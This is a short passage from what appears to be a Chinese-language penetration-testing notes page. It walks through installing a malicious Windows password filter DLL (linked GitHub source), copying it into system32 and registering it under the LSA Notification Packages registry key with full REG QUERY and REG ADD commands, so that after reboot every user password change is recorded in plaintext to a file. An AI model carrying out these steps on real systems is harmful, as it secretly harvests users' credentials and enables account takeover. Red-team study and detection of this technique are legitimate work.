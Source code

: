 	https://github.com/3gstudent/PasswordFilter
	visualstudio生成解决方案
	DLL放在%windir%\system32\下
	HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa下的Notification Packages，添加Win32Project3
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/521.png)

	>REG QUERY "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "Notification Packages"
	>REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "Notification Packages" /t REG_MULTI_SZ /d "scecli\0rassfm\0Win32Project3" /f
	重启之后只要修改用户的密码，即可记录
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/522.png)

	文件默认在C盘根目录，可在源码中修改
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/523.png)